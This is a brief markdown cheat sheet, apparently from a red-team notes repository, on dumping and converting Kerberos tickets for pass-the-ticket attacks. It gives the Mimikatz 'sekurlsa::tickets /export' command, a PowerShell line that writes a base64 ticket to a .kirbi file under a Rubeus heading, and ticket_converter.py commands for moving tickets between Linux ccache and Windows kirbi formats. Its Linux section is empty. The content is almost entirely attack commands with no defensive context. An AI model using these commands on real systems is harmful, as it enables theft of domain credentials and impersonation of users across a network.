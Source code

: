 # Pass The Ticket - Ticket Dump
## Retrieve tickets from Linux


## Retrieve tickets from Windows
User can request owned tickets, admin can request all.
`Mimikatz`
	sekurlsa::tickets /export
	exit
`Rubeus`
`\[IO.File\]::WriteAllBytes("ticket.kirbi", \[Convert\]::FromBase64String("<BASE64\_TICKET>"))`

## Swapping tickets between Linux-Windows
`python ticket_converter.py <LINUX.ccache> <WINDOWS.kirbi>`
`python ticket_converter.py <WINDOWS.kirbi> <LINUX.ccache>`
